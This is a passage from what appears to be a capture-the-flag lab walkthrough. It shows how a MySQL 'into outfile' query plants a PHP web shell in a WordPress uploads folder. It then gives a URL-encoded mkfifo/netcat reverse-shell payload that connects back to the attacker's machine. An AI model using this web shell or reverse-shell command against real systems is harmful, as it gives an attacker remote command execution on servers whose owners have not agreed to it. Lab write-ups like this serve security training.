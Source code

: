 Alright, we should be able to use this to upload a reverse shell to the system and finally get onto the box.

<br>

## System Access

We know the home directory of the blog is located in /var/www/https/blogblog/ from the error message earlier when we tried to get the /etc/shadow file, so we know where to point the outfile command.

I run the following while logged into MySQL:

```
select '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/https/blogblog/wp-content/uploads/revshell.php';
```

And taking a look over in the /blogblog/wp-content/uploads folder shows it worked:

![](images/stapler28.png)

And testing it out with the id command:

![](images/stapler29.png)

I run a which nc command and it tells us it's in /bin/nc so we can nc for a reverse shell here.

Alright, let's finally get out initial foothold. I start up a listener on my system and use a URL encoded version of nc mkfifo:

```
https://192.168.56.148:12380/blogblog/wp-content/uploads/revshell.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%20192.168.49.56%204444%20%3E%2Ftmp%2Ff
```
